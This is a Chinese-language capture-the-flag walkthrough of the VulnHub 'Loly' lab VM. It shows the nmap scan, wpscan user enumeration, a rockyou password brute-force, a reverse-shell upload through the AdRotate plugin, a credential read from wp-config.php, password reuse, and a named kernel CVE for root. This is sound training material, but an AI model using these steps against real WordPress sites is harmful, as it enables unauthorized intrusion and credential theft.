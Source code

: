 # Loly

> https://download.vulnhub.com/loly/Loly.ova

靶场IP：`192.168.2.136`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 -sV 192.168.2.136                                                                                                                                                                                               
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-06 09:55 EDT
Nmap scan report for 192.168.2.136
Host is up (0.00058s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
MAC Address: 00:0C:29:24:CB:0B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.22 seconds

```

浏览器访问80端口

![image-20220906215926885](../../.gitbook/assets/image-20220906215926885-1675839900867831.png)

爆破web目录

![image-20220906220003026](../../.gitbook/assets/image-20220906220003026-1675839900868833.png)

需要配置本地hosts

![image-20220906220031942](../../.gitbook/assets/image-20220906220031942-1675839900867832.png)

![image-20220906220122590](../../.gitbook/assets/image-20220906220122590-1675839900868835.png)

枚举wordpress用户

```
wpscan --url http://loly.lc/wordpress --enumerate u

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```

爆破密码

```
wpscan --url http://loly.lc/wordpress --usernames loly --passwords /usr/share/wordlists/rockyou.txt
```

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando                                                                                                                                                                                                                 
Trying loly / corazon Time: 00:00:01 <   
```



我看到我们安装了一个名为"AdRotate"的插件，我们可以在其中上传 zip 文件。

```
http://loly.lc/wordpress/wp-admin/admin.php?page=adrotate-media
```

![image-20220906220850297](../../.gitbook/assets/image-20220906220850297-1675839900868834.png)

```
┌──(root💀kali)-[/tmp]
└─# zip shell.zip php-reverse-shell.php 
  adding: php-reverse-shell.php (deflated 59%)

```

![image-20220906221157615](../../.gitbook/assets/image-20220906221157615-1675839900868836.png)

访问反弹shell

```
http://loly.lc/wordpress/wp-content/banners/shell.php
```

```
$ python3 -c "import pty;pty.spawn('/bin/bash')";
```

查看`wp-config.php`配置文件

```
www-data@ubuntu:~/html/wordpress$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```

切换到loly用户

```
www-data@ubuntu:~/html/wordpress$ su loly
su loly
Password: lolyisabeautifulgirl

loly@ubuntu:/var/www/html/wordpress$ sudo -l
sudo -l
[sudo] password for loly: lolyisabeautifulgirl

Sorry, user loly may not run sudo on ubuntu.

```

使用CVE-2017-16995进行提权。

